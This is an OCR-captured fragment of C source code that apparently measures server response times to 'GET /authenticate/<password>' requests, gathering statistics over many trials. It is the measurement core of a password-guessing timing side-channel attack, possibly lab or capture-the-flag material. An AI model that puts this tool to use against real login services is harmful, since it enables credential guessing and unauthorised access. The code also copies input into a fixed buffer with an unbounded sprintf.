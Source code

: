 ```
    char buf[256];
    sprintf(buf, "GET /authenticate/%s HTTP/1.1\r\n\r\n", password);

    int i;
    struct timespec tp1, tp2;

    for (i=0; i<1; i++) {
        //printf("%s\n", buf);
        if (send(sock, buf, strlen(buf), 0) <= 0) {
            printf("send fail\n");
            close(sock);
            return -3;
        }

        static char r[2048];

        clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &tp1);
        if (recv(sock, &r, sizeof r, 0) <= 0) {
            printf("read fail\n");
            return -6;
        }
        //printf("%s\n", r);
        clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &tp2);

        if (verbose) printf("resp %s %d\n", password, tp2.tv_nsec - tp1.tv_nsec);
    }

    return tp2.tv_nsec - tp1.tv_nsec;
}

signed long send_and_measure(const char* password) {
    signed long ret = -1;

    while (ret < 0) {
        ret = send_and_measure_inner(password);
    }

    return ret;
}

#define NUM 10000

typedef struct {
    signed long max;
    signed long min;
    signed long accum;
    signed long data[NUM];
} measurements_t;

int compar(const void* a, const void* b) {
    return (*(signed long*)a) - *(signed long*)b;
}

#define MMNUM 4
measurements_t m[MMNUM];

void measure(const char* password, int m_idx, int data_idx) {
    signed long mm = send_and_measure(password);
    if (mm > m[m_idx].max) m[m_idx].max = mm;
    if (mm < m[m_idx].min) m[m_idx].min = mm;
    m[m_idx].accum += mm;
    m[m_idx].data[data_idx] = mm;
}
```